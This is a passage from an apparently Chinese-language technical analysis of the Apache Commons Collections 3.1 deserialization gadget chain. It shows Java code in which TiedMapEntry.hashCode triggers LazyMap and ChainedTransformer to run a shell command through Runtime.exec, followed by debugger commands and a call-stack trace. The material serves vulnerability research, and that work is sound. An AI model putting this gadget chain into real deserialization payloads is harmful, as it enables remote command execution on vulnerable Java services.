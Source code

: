 ```java
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( tarray );
        Map             normalMap   = new HashMap();
        Map             lazyMap     = LazyMap.decorate( normalMap, tchain );
        /*
         * https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/org/apache/commons/collections/keyvalue/TiedMapEntry.html
         *
         * TiedMapEntry(Map map, Object key)
         *
         * 第二形参不必传"foo"，可以是null
         */
        TiedMapEntry    tme         = new TiedMapEntry( lazyMap, null );
        /*
         * 触发相应的Transformer的transform()方法。
         */
        tme.hashCode();
    }
}
```

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
TiedMapEntryExec "/bin/touch /tmp/scz_is_here"

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [9] org.apache.commons.collections.keyvalue.TiedMapEntry.getValue (TiedMapEntry.java:73), pc = 8
  [10] org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode (TiedMapEntry.java:120), pc = 1
  [11] TiedMapEntryExec.main (TiedMapEntryExec.java:81), pc = 190

从调用栈回溯可以看出，TiedMapEntry.hashCode()最终触发LazyMap.get()。

8.4.2) ConcurrentHashMapExec.java
